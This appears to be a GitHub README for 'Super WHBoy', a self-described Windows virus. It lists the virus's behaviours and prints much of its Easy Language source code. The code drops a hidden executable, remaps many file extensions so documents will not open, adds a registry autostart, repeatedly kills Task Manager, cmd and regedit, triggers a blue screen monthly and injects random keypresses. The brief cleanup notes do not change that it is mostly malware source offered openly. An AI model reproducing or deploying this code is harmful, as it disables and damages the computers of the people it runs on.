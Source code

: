 Super WHBoy
=
**Project Introduction**  
* This update:
  * Cancel the function of destroying MBR and keep BSOD on the 1st day of each month.
* It is written in easy language and C language.
* There are some files: self starting.e is the program after the virus is added and started; main.e is the main body of the program, which runs only once;Killwhboy.e is the source code of antivirus program;killwhboy.exe Is the compiled antivirus program;unknow:Necessary files for compiling or running virus Ontology.For more information, see wiki.
* Viral behavior:
  * a. Release self boot file and icon file in the root directory of the system; 
  * b. Modify the registry to change the default icon of EXE file to the icon file released under the root directory;
  * c.Destroy the opening mode of some files so that they cannot be opened; 
  * d. Shut down the computer after 10 minutes;
  * e.Open a web page every 18 seconds; 
  * f.Close CMD, tasklist and regedit every 1 second; 
  * g.A warning is sent every 25 seconds.
  * h.The computer will be Blue Screen of Death on the 1st of every month.
  * i.Press five random keys every 30 seconds.
* Detoxification method: first use disk tool to search for the lost partition and recover it, then rebuild the boot record and enter the system, then run the detoxification program. Or contact the author.If it is No.1, please adjust the time under PE or do not use the poisoned computer on the same day.
* The virus also has some vulnerabilities:
>You can call up the file extension through the folder option in the control panel, and change the suffix of CMD, tasklist or regedit to com, so that you can open the program and use it.   
## file  
.lnk、.doc、.docx、.ppt、.pptx、.xls、.xlsx、.png、.jpg、.jpeg、.bmp、.com、.mp3、.mp4、.avi、.mp5、.txt、.bat、.cmd、.vbs
、.java、.cpp  
# Main.e  
## Window assembly:  
`.版本 2  `  
`.支持库 eAPI  `  
`.程序集 窗口程序集_启动窗口  `  
`.子程序 __启动窗口_创建完毕  `  
`' 重启资源管理器  `  
`终止进程 (“explorer.exe”)  `  
`运行 (“explorer”, 假, #隐藏窗口)  `  
`' 释放病毒文件  `  
`写到文件 (“C:\icon.ico”, #icon)  `  
`写到文件 (“C:\wrom.exe”, #wrom)  `  
`写到文件 (“C:\img.bmp”, #img)  `  
`置文件属性 (“C:\wrom.exe”, #隐藏文件)  `  
`运行 (“C:\wrom.exe”, 假, )  `  
`' 修改注册表  `  
`写注册项 (#根类, “.lnk\”, “exefile”)  `  
`写注册项 (#根类, “.doc\”, “exefile”)  `  
`写注册项 (#根类, “.docx\”, “exefile”)  `  
`写注册项 (#根类, “.ppt\”, “exefile”)  `  
`写注册项 (#根类, “.pptx\”, “exefile”)  `  
`写注册项 (#根类, “.xls\”, “exefile”)  `  
`写注册项 (#根类, “.xlsx\”, “exefile”)  `  
`写注册项 (#根类, “.png\”, “exefile”)  `  
`设置桌面墙纸 (“C:\img.bmp”, 2)  `  
`' 文件关联2  `  
`写注册项 (#根类, “.jpg\”, “exefile”)  `  
`写注册项 (#根类, “.jpeg\”, “exefile”)  `  
`写注册项 (#根类, “.bmp\”, “exefile”)  `  
`写注册项 (#根类, “.com\”, “exefile”)  `  
`写注册项 (#根类, “.mp3\”, “exefile”)  `  
`写注册项 (#根类, “.mp4\”, “exefile”)  `  
`写注册项 (#根类, “.avi\”, “exefile”)  `  
`写注册项 (#根类, “.mp5\”, “exefile”)  `  
`写注册项 (#根类, “.txt\”, “exefile”)  `  
`写注册项 (#根类, “.bat\”, “exefile”)  `  
`写注册项 (#根类, “.cmd\”, “exefile”)  `  
`写注册项 (#根类, “.vbs\”, “exefile”)  `  
`写注册项 (#根类, “.java\”, “exefile”)  `  
`写注册项 (#根类, “.cpp\”, “exefile”)  `  
`写注册项 (#根类, “exefile\DefaultIcon\”, “C:\icon.ico”)  `  
`' 开机自启动  `  
`写注册项 (#本地机器, “software\microsoft\windows\CurrentVersion\Run\wrom”, “C:\wrom.exe”)  `  
`' 重启资源管理器  `  
`终止进程 (“explorer.exe”)  `  
`运行 (“explorer”, 假, #隐藏窗口)  `  
`信息框 (“Oh?”, 0, “Super WHBoy”, )  `  
`.子程序 _数值增加_周期事件  `  
`BoxNumber ＝ BoxNumber ＋ 1  `  
`.子程序 _自我防护_周期事件  `  
`终止进程 (“taskmgr.exe”)  `  
`终止进程 (“cmd.exe”)  `  
`终止进程 (“regedit.exe”)  `  
## Picture&Program res
`.版本 2`  
`.图片 icon`  
`.图片 wrom`  
`.图片 img` 
# Self Starting.e 
`.版本 2`  
`.子程序 _变卡_周期事件`  
`置随机数种子 ()`  
`超级链接框1.Internet地址 ＝ 到文本 (“www.” ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ “.com”)`  
`超级链接框1.跳转 ()`  
**And Blue screen: **   
`.版本 2  `  
`.子程序 _时钟1_周期事件  `  
`编辑框1.内容 ＝ 到文本 (取现行时间 ())  `  
`.判断开始 (寻找文本 (编辑框1.内容, “1日”, , 假) ＞ 0)  `  
    `系统_蓝屏 ()  `  
**Pop up windows and buttons:**  
`.版本 2`  
`.支持库 eAPI`  
`.子程序 _警告弹窗_周期事件`  
`信息框 (“Your computer is poisoned!”, #错误图标, “Super WHBoy”, )`  
`.子程序 _按键事件_周期事件`  
`置随机数种子 ()`  
`.计次循环首 (5, )`  
    `模拟按键 (字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)))`  
    `模拟按键 (字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)), )`  
`.计次循环尾 ()`  

